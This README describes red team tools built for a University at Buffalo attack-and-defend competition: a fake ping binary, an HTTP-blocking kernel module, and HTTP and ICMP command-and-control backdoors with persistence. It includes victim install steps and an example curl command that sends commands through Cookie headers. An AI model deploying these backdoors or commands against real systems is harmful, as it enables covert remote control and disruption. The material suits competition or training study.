 # Red Team Tools

Each of the tools below was developed by Jack Dunfey for the Internal Lockdown competition at the University at Buffalo.

Each of their folders has an individual README with more information 

## Everything!

```
git clone ...
cd Red-Team-Tools
chmod +x install.sh
./install.sh all
```

## Malicious Ping

This is a C program that can be compiled to replace the ping binary on a system.
It will seem successful for any properly formed IP address or valid DNS name.

<!-- Add images here -->

## HTTP Takedown Kernel Module

This is a kernel module that when installed will block HTTP requests for X minutes every Y minutes. X and Y can be set using macros at the top of the file.

## HTTP C2

Creates a service called processd that runs a program that listens for commands hidden in the headers of an HTTP request

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

## ICMP C2

Creates a service called icmp that "replaces" the kernels responses to icmp echo requests with its own. It will respect the contents of the `net.ipv4.icmp_echo_ignore_all`.

If IP packet has an id of 45, 65, 31, or 17, the service will execute the payload and the response will be the output of the command.

<!-- TODO: 
- Should make the code timeout and send decoy response to avoid suspicion -->

Multithreading and restart on failure added for persistence.

For victim:
git clone then run `sudo ./install.sh` from within icmp-c2 directory
Once installed, source directory can be deleted 

For attacker:
run `python3 send-command.py ls -l`, can replace with any command

To force a reply even if ignore echo rule is turned on, use the `-f` flag as `argv[1]`
